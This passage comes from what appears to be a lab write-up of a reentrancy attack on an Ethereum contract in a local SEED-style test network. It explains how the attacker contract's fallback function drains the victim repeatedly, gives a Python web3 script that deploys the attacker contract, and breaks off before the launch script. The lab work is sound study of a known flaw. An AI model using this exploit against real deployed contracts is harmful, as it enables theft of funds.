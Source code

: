 The **attack** and **fallback** are the 2 functions that will be used for the attack. To execute the exploit we will call the **attack**. This function deposit 1 ether to the victim and then will immediately withdraw 1 ether from the victim, this will trigger the reentrancy attack. As explained above, the victim's withdraw function is vulnerabe and will send 1 ether back to the attacker which will cause the attacker's fallback funtion to trigger which will withdraw 1 ether from the victim once again. Because the attacker's balance is not yet updated, the check will pass once again and 1 ether will be sent again even though the attacker's balance is 0. This will continue to trigger until the victim is out of ether.

We will now deploy the attacker's contract using the following python program:

```py
from web3 import Web3
import SEEDWeb3
import os

abi_file        = "../contract/ReentrancyAttacker.abi"
bin_file        = "../contract/ReentrancyAttacker.bin" 
victim_contract = '0xbA977a3dF7c3E0A926Fa46EA749f3C182147f4F8'


# Connect to our geth node 
web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

# We use web3.eth.accounts[1] as the sender because it has more Ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")
addr = SEEDWeb3.deploy_contract(web3, sender_account,
                     abi_file, bin_file, victim_contract)
print("Attack contract: {}".format(addr))
with open("contract_address_attacker.txt", "w") as fd:
    fd.write(addr)
```

The execution of the program results in the following image:

![Deploying the Attacker's contract](images/image5.PNG)

So the attacker's contract address is: **0xe66e55BC1Dd18120cf7a8cc6791F64Fe0AF1bA12**. With this done we can finally execute the attack in the following task.

## Task 3: Launching the Reentrancy Attack

To execute the attack we have to call the **attack** function using the attacker's address. We can do that by executing the **launch_attack.py**. We can see the script bellow:
